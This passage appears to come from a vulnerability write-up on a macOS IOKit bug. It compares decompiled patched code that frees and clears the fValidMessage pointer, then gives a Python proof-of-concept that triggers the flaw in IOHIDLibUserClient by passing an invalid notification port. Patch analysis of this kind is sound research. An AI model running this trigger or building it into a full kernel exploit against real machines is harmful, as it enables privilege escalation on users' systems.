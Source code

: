 ```c
      *puVar1 = 0x2000000013;
      lVar2 = *(long *)(param_1 + 0x128);
      *(undefined8 *)(lVar2 + 8) = *(undefined8 *)(param_1 + 0x118);
      if (lVar2 == 0) {
        return 0;
      }
      _mach_msg_send_from_kernel_proper(lVar2,(ulong)*(uint *)(lVar2 + 4));
      return 0;
    }
    _IOFree(puVar1,0x20);                       // New code added. 
    *(undefined8 *)(param_1 + 0x128) = 0;
  }
  else {
    if (param_3 != 0) {
      return 0xe00002c7;
    }
    if (*(long *)(param_1 + 0x110) != 0) {
      _ipc_port_release_send();
      *(undefined8 *)(param_1 + 0x110) = 0;
    }
    *(long *)(param_1 + 0x110) = lVar2;
  }
  return 0;
}
```

With the updated code we can see that two additional lines have been added to free the memory and zero the fValidMessage pointer:
```c
_IOFree(puVar1,0x20);                          // _IOFree(fValidMessage,0x20); 
*(undefined8 *)(param_1 + 0x128) = 0;          // fValidMessage = 0
```

From this you can see it is possible to trigger the bug by passing an invalid notification port to an IOHIDLibUserClient. I will make use of the coralsun library to simplify the POC trigger code. 

```python
import iokitlib

# IOHIDLibUserClient
iokit = iokitlib.iokit()
conn = iokit.open_service(b"IOHIDDevice",4737348)
print(conn)

# Open the device with selector 1.
selector = 1

input_scalar = [10]
input_struct = None
output_scalar = None
output_struct = None 

kr = iokit.connect_call_method(conn,selector,input_scalar,input_struct,output_scalar,output_struct)
print(kr) 

# Now pass an invalid port in of type 1. 
iokit.ioconnect_setnotificationport(conn,1,0)

```

Using this it may be possible to get IOKit to use uninitialised memory which is previously attacker controlled and achieve code execution within the kernel context. Exploitation is left an excercise for the reader :) 